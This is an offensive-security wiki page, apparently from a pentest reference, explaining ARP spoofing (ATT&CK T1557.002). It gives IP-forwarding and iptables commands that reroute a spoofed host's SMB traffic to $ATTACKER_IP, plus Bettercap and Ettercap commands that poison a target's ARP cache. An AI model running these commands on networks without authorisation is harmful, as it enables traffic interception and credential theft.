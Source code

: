 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.002
---
```


# 🛠️ ARP spoofing

## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice

{% hint style="warning" %}
Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.
{% endhint %}

Examples of attacks

* ARP spoofing an SMB server and route received SMB packets to internal capture or relays servers
* ARP spoofing the DNS server then DNS spoofing when receiving DNS queries

Preparation

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

Spoofing

{% tabs %}
{% tab title="Bettercap" %}
Once bettercap is running

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
```
{% endtab %}

{% tab title="Ettercap" %}


```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```
{% endtab %}
{% endtabs %}

## Resources

[http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html?m=1](http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html?m=1)

[https://luemmelsec.github.io/Relaying-101/\#arp-spoofing](https://luemmelsec.github.io/Relaying-101/#arp-spoofing)



